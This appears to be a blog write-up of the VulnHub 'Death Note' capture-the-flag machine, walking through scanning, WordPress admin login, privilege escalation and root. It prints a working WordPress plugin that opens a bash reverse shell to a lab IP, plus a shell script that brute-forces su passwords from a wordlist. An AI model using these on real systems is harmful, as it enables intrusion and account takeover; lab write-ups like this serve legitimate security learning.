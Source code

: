 ```yaml
---
layout: single
title: Death note vulnhub writeup
excerpt: "Very easy linux machine in which we upload a malicious php plugin to wordpress, bruteforce a user's password and find unexpected files in the system"
date: 2022-09-01
classes: wide
header:
  teaser: /assets/images/deathnote/icon-deathnote.png
  teaser_home_page: true
  icon: /assets/images/vulnhub.png
categories:
  - writeup
tags:
  - vulnhub
  - bash scripting
  - bruteforcing
  - wordpress
---
```


![](/assets/images/deathnote/deathnote.gif)

# Death Note
# User flag

let's see the open ports

```shell
nmap -p- -n -Pn -sS --min-rate 5000 -vv -oN allports 192.168.1.60
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

```shell
nmap -sCV -p80,22 -oN targeted 192.168.1.60
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 5e:b8:ff:2d:ac:c7:e9:3c:99:2f:3b:fc:da:5c:a3:53 (RSA)
|   256 a8:f3:81:9d:0a:dc:16:9a:49:ee:bc:24:e4:65:5c:a6 (ECDSA)
|_  256 4f:20:c3:2d:19:75:5b:e8:1f:32:01:75:c2:70:9a:7e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
```

Pretty standard so far, let's check the webpage. When trying to connect to the ip it redirects us to deathnote.vuln and gives an error since obviously there is no dns record and we do not have it defined in /etc/hosts therefore let's do the second thing, in my case.

```shell
192.168.1.60    deathnote.vuln
```

Now we have a wordpress site and before running wpscan I noticed a line of text that clearly looks like a password for me `my fav line is iamjustic3`. Next I tried the password in the wp-admin with user kira (the user that made the post) and it worked I was already admin in the site. Now we just have to get a reverse shell. But first I checked the files in the wordpress admin site a found a notes.txt file that seems like a password dictionary, it may be useful later.

The method we used in the [Mr.robot](2022-08-15-Mrrobot-Writeup.md) and in the [Dobby](2022-08-23-Dobby-Writeup.md) machine doesn't work in this one (changing the php template to a reverse shell). However there is another popular method, installing a malicious plugin, in my case

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.13/7777 0>&1'");
?>
```

Put this into a php file and then zip it, then go to the plugins page, click add new and click upload plugin,once you activate it make sure you are listening with netcat to get the connection.

```shell
Connection from 192.168.1.60:58254
bash: cannot set terminal process group (527): Inappropriate ioctl for device
bash: no job control in this shell
www-data@deathnote:/var/www/deathnote.vuln/wordpress/wp-admin$
```

Once in I started searching in the directories going down one by one and found a file called important.jpg in /var/www/deathnote.vuln that is just plain text, it says:


```text
i am Soichiro Yagami, light's father
i have a doubt if L is true about the assumption that light is kira

i can only help you by giving something important

login username : user.txt
i don't know the password.
find it by yourself
but i think it is in the hint section of site
```

I found two user.txt files one was a user dictionary but I though that was ridiculous since there was only two user on the system kira and l. The other file just contains some brainfuck code with a message saying `i think u got the shell , but you wont be able to kill me -kira`

What I did to get the user was just create a bash script to bruteforce giving it the dictionary we found earlier


```shell
#!/bin/sh

trap "exit 1" INT

if [ $1 -z 2>/dev/null ]
then
        echo "[+] Usage: ./su_brute.sh wordlist"
        exit 1
fi
while read line
do
        echo $line | su l 2>/dev/null
        if [ $? = 0 ]
        then
                echo "[+] password found $line"
                exit 1
        fi
done < $1
```


```shell
www-data@deathnote:/dev/shm$ cp /var/www/deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt .
www-data@deathnote:/dev/shm$ chmod a+x su_brute.sh
www-data@deathnote:/dev/shm$ ./su_brute.sh notes.txt
[+] password found death4me
```

## Root flag

It may take a while to get the password but It will work eventually. Next I logged as l via ssh to get a better tty.Then I tested many privesc vectors but didn't found any so I executed linpeas to help me out and I found this.


```shell
╔══════════╣ Unexpected in /opt (usually empty)
total 12
drwxr-xr-x  3 root root 4096 Aug 29  2021 .
drwxr-xr-x 18 root root 4096 Jul 19  2021 ..
drwxr-xr-x  4 root root 4096 Aug 29  2021 L
```

there is a L directory in /opt which is quite unusual. Looking inside it I found a case.wav that was again just text encoded in hex and then in base 64

```shell
l@deathnote:/opt/L/fake-notebook-rule$ cat case.wav
63 47 46 7a 63 33 64 6b 49 44 6f 67 61 32 6c 79 59 57 6c 7a 5a 58 5a 70 62 43 41 3d
l@deathnote:/opt/L/fake-notebook-rule$ cat case.wav | xxd -r -p | base64 -d; echo
passwd : kiraisevil
```

Now if we log as kira and take a look at his sudo privileges we can escalate to root

```shell
l@deathnote:/opt/L/fake-notebook-rule$ su kira
Password:
kira@deathnote:/opt/L/fake-notebook-rule$ sudo -l
[sudo] password for kira:
Matching Defaults entries for kira on deathnote:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kira may run the following commands on deathnote:
    (ALL : ALL) ALL
kira@deathnote:/opt/L/fake-notebook-rule$ sudo su
root@deathnote:/opt/L/fake-notebook-rule# cd /root
root@deathnote:~# cat root.txt


      ::::::::       ::::::::       ::::    :::       ::::::::       :::::::::           :::    :::::::::::       ::::::::
    :+:    :+:     :+:    :+:      :+:+:   :+:      :+:    :+:      :+:    :+:        :+: :+:      :+:          :+:    :+:
   +:+            +:+    +:+      :+:+:+  +:+      +:+             +:+    +:+       +:+   +:+     +:+          +:+
  +#+            +#+    +:+      +#+ +:+ +#+      :#:             +#++:++#:       +#++:++#++:    +#+          +#++:++#++
 +#+            +#+    +#+      +#+  +#+#+#      +#+   +#+#      +#+    +#+      +#+     +#+    +#+                 +#+
#+#    #+#     #+#    #+#      #+#   #+#+#      #+#    #+#      #+#    #+#      #+#     #+#    #+#          #+#    #+#
########       ########       ###    ####       ########       ###    ###      ###     ###    ###           ########
```

Pretty basic machine with many hints everywhere, really good for beginners and I guess it is even better if you have watched the show (I haven't)
